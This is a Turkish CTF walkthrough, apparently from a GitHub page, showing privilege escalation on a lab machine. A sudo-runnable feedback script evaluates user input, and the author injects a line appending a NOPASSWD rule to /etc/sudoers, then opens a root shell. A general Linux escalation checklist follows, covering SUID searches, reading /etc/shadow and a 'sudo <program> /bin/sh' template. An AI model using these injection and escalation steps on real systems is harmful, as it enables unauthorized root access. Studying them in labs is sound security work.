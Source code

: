 # Privilege Escalation: Deku Kullanıcısından Root Yetkilerine Yükselme

Bu yazıda, bir CTF senaryosunda `deku` kullanıcısı ile bir Linux makinesine SSH ile bağlandıktan sonra sudo yetkilerini kullanarak nasıl root erişimi sağladığımı adım adım açıklıyorum.

---

## 1. `sudo -l` Çıktısının Analizi

İlk olarak `sudo -l` komutunu çalıştırdım. Bu komut, `deku` kullanıcısının hangi komutları `sudo` yetkisiyle çalıştırabileceğini listeler:

```bash
sudo -l
```
Çıktı şu şekildeydi:


```bash
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
Buradan, deku kullanıcısının /opt/NewComponent/feedback.sh betiğini sudo yetkileriyle çalıştırabildiğini öğrendim. Bu, potansiyel bir yetki yükseltme (privilege escalation) açığı olabileceğini gösteriyordu.
```
2. feedback.sh Betiğinin Analizi
Betik dosyasını incelediğimde şu kodları buldum:

```bash
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi
```
Öne Çıkan Satır:
```bash

eval "echo $feedback"
```
Bu satır, kullanıcıdan alınan girdiyi eval komutuyla çalıştırıyor. Ancak, belirli karakterleri (\ ) ; | gibi) filtrelemeye çalışarak komut enjeksiyonunu engellemeyi hedefliyor. Fakat eval kullanımı nedeniyle bu betik hâlâ saldırıya açık.

3. Betiği sudo ile Çalıştırma
Betiği sudo ile çalıştırdım:

``` bash

sudo ./feedback.sh
```
Bu işlem, betiği root yetkileriyle çalıştırmamı sağladı. Betik çalıştırıldığında benden şu girdi istendi:

bash
Copy code
Enter your feedback:
4. Girdi Manipülasyonu: Sudoers Dosyasını Düzenleme
Girdi olarak şu komutu yazdım:

``` bash
deku ALL=NOPASSWD: ALL >> /etc/sudoers
Bu Komutun Amacı:
deku ALL=NOPASSWD: ALL: Bu satır, "deku" kullanıcısına hiçbir parola sormadan (NOPASSWD) herhangi bir komutu (ALL) sudo yetkisiyle çalıştırma izni verir.
>> /etc/sudoers: Bu komut, yukarıdaki yetkiyi /etc/sudoers dosyasına ekler. /etc/sudoers, kullanıcıların sudo yetkilerini yöneten kritik bir dosyadır.
Betiğin eval satırı sayesinde bu komut root yetkisiyle çalıştı ve /etc/sudoers dosyasına gerekli satırı ekledim.
```
5. Yetki Yükseltme: Root Erişimi Sağlama
Artık "deku" kullanıcısı hiçbir parola girmeden root yetkisiyle komut çalıştırabiliyordu. Aşağıdaki komutu kullanarak root erişimi sağladım:

``` bash
sudo /bin/bash
```
Bu komut, root yetkileriyle bir bash shell başlattı ve sistem üzerinde tam kontrol elde ettim.

6. Neden Bu Adımları Yaptım?
Açıkların Kullanımı:
feedback.sh betiğindeki eval satırı, kullanıcı girdisini doğrudan çalıştırdığı için komut enjeksiyonuna açıktı.
Sudo yetkisiyle çalıştırılabilen bu betiği kullanarak /etc/sudoers dosyasına yetki satırı ekledim.
Hedef:
Bu adımlarla, düşük yetkilere sahip bir kullanıcıdan (deku) root erişimi elde ettim. Bu, CTF çözümlerinde sıkça karşılaşılan bir yetki yükseltme tekniğidir.

7. Çıkarılan Dersler
Bu senaryoda şu güvenlik açıkları göze çarpmaktadır:

eval Kullanımı: Kullanıcı girdisini doğrudan çalıştırmak ciddi bir güvenlik riskidir. eval komutunun kullanılması kesinlikle önerilmez.
Sudo Yetkilerinin Yanlış Yapılandırılması: sudo yetkisiyle çalıştırılabilen bir betik, root erişimine açık bir kapı oluşturmuştur.
Girdi Filtrelemenin Yetersizliği: Filtreleme işlemi bazı özel karakterleri engellese de saldırıyı tamamen önleyememiştir.
Güvenlik Önerileri:
Kullanıcı girdilerini çalıştırmadan önce dikkatlice sanitize edin.
eval kullanmaktan kaçının; bunun yerine güvenli alternatifler tercih edin.
Sudo yetkilerini minimum seviyede tutun ve gereksiz betikleri sudo ile çalıştırılabilir hale getirmeyin.
Özet
Bu senaryoda:

``` bash
sudo -l
````

 ile deku kullanıcısının sudo yetkilerini keşfettim.
feedback.sh betiğini inceledim ve komut enjeksiyonu yaparak sudoers dosyasını düzenledim.
Son olarak, root yetkileriyle bir shell açarak tam kontrol sağladım.
Bu çözüm, hem CTF çözümleme pratiği hem de gerçek dünyada güvenlik açıklarını anlamak için oldukça öğreticidir.
/
Reverse shell aldıktan sonra root yetkisine ulaşmak (privilige escalation) için izleyebileceğiniz birkaç adım bulunmaktadır. İşte izleyebileceğiniz bir yol haritası:

*1. Sistem Bilgilerini Toplama*
Öncelikle sistem hakkında bilgi toplamanız gerekmektedir:
- *Kernel Versiyonu*: `uname -a`
- *İşletim Sistemi ve Dağıtımı*: `cat /etc/os-release` veya `cat /etc/issue`
- *Kullanıcı Bilgileri*: `id` ve `whoami`

*2. Konfigürasyon Dosyalarını Kontrol Etme*
Sistem konfigürasyon dosyalarını kontrol ederek potansiyel zafiyetleri belirleyin:
- *Sudoers Dosyası*: `cat /etc/sudoers` ve `sudo -l` komutlarını kullanarak, sudo yetkilerine sahip olup olmadığınızı kontrol edin.
- *Setuid Bit*: `find / -perm -4000 -type f 2>/dev/null` komutu ile Setuid bit'ine sahip dosyaları arayın.

*3. Yaygın Güvenlik Zafiyetlerini Araştırma*
Yaygın güvenlik zafiyetlerini kontrol edin:
- *Sudo İstismarları*: `sudo -l` komutunu kullanarak sudo yetkilerine sahip olduğunuz programları kontrol edin. Bu programlar üzerinden zafiyet olup olmadığını araştırın.
- *Cron Job'lar*: `cat /etc/crontab` ve `ls -la /etc/cron.*` komutları ile cron job'larını kontrol edin.
- *Zayıf Dosya İzinleri*: Kritik konfigürasyon dosyalarında zayıf dosya izinlerini kontrol edin. (örneğin, `/etc/passwd` ve `/etc/shadow`)

*4. Local Exploitler*
Kernel exploitleri ve local exploitleri kullanarak yetki yükseltme işlemi gerçekleştirebilirsiniz:
- *Exploit DB*: [Exploit DB](https://www.exploit-db.com/) üzerinde işletim sisteminiz ve kernel versiyonunuz için uygun exploitleri araştırın.
- *GTFOBins*: [GTFOBins](https://gtfobins.github.io/) üzerinde setuid bit'ine sahip dosyalar veya sudo yetkisine sahip programlar için uygun exploit tekniklerini araştırın.

*5. Otomatik Araçlar Kullanma*
Yetki yükseltme işlemlerini otomatik olarak gerçekleştirebilecek araçlar:
- *LinPEAS*: [LinPEAS](https://github.com/carlospolop/PEASS-ng) aracını kullanarak sistemdeki potansiyel zafiyetleri tarayın.
- *Les (Linux Exploit Suggester)*: [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) aracını kullanarak kernel exploitlerini tespit edin.

*Örnek Bir Exploit Kullanma*
Örneğin, `sudo` yetkisine sahip bir program üzerinden yetki yükseltme:
```bash
sudo <program> /bin/sh
```

